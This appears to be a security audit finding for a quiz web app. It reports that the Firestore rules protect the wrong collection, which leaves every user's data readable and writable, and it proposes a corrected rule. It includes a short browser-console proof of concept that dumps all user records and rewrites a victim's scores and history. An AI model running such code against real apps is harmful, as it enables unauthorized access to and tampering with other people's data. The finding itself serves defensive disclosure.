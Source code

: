 **Location**:
- `firestore.rules` line 7: Protects `/userProgress/{userId}`
- `lib/db.ts` line 16: Uses `'users'` collection
- `app/api/pregenerate-quiz/route.ts` line 20: Uses `'users'` collection

**Vulnerability Description**:
Firestore security rules protect the **`userProgress`** collection, but the application code uses the **`users`** collection. The `users` collection has NO security rules, meaning:
- Any authenticated user can read ANY other user's data
- Any authenticated user can modify ANY user's data
- Anonymous users with Firebase credentials can access all data

**Proof of Concept**:
```javascript
// From browser console of ANY logged-in user:
import { getFirestore, collection, getDocs, doc, updateDoc } from 'firebase/firestore';

const db = getFirestore();

// Read ALL users' data (no restrictions)
const usersSnapshot = await getDocs(collection(db, 'users'));
usersSnapshot.forEach((doc) => {
  console.log('User ID:', doc.id);
  console.log('Data:', doc.data());
  // Outputs: quiz history, scores, answered questions, ability estimates
});

// Modify ANY user's data
const victimUserRef = doc(db, 'users', 'victim-user-id');
await updateDoc(victimUserRef, {
  estimatedAbility: 3.0,  // Max out their ability
  correctAnswers: 9999,    // Give them perfect score
  quizHistory: []          // Erase their history
});
```

**Impact**:
- **Data Breach**: All user quiz data, scores, and progress exposed
- **Data Integrity**: Any user can modify any other user's data
- **Privacy Violation**: Quiz history and performance metrics leaked
- **Score Manipulation**: Users can inflate/deflate any user's scores

**Exploitation Difficulty**: Trivial (browser console)

**Remediation**:
```javascript
// Option 1: Fix firestore.rules to use correct collection name
rules_version = '2';

service cloud.firestore {
  match /databases/{database}/documents {
    // Change from /userProgress/ to /users/
    match /users/{userId} {
      allow read, write: if request.auth != null && request.auth.uid == userId;
    }

    // ... rest of rules
  }
}
```
